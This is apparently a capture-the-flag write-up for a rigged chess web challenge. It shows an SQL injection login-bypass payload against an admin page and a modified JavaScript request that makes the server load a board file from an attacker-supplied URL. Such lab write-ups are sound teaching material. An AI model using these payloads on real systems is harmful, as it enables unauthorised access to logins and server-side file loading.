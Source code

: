 # Chess

### Description

This is a chess game that is rigged in favor of the computer. When you play, the CPU will generate more queens, making it impossible to win. Interestingly, the site has a "Master Login" button that leads to the url `/admin.php`.

To get the flag, you need to checkmate the computer.

### Solution 1

This was the solution that I came up with on the first go-around. You can bypass the login page at `/admin.php` by using the SQLi payload `' OR 1=1 -- `. Once there, you'll see a page titled "Change config of the Chess AI!". 

To win, you need to select the "No" option for "AI Queen Cheats" and click the submit button. From there, I just played the computer in a normal game of chess and won.

### Solution 2

A better solution is apparent when inspecting the source code of the chess game. You can see a definition for this `load_baseboard()` function:

```javascript
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'baseboard.fen')

  xhr.open('POST', url, true)
  xhr.send(formData);
  window.location.href = "index.php";
}
```

To exploit this, you need to find a FEN file [(Fen Notation)](https://www.chess.com/terms/fen-chess) containing a winning position for white, and host it somewhere. Then, run a modified `load_baseboard()` function that looks like the following:

```javascript
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', '<URL_OF_YOUR_FEN_FILE>')

  xhr.open('POST', url, true)
  xhr.send(formData);
}
```

This has two changes:

1. We've replaced the "baseboard.fen" with our own FEN file containing the winning position
2. We've removed the last line that would refresh the page

These changes will cause the function to load a winning position and stay on the page, triggering a win for white.
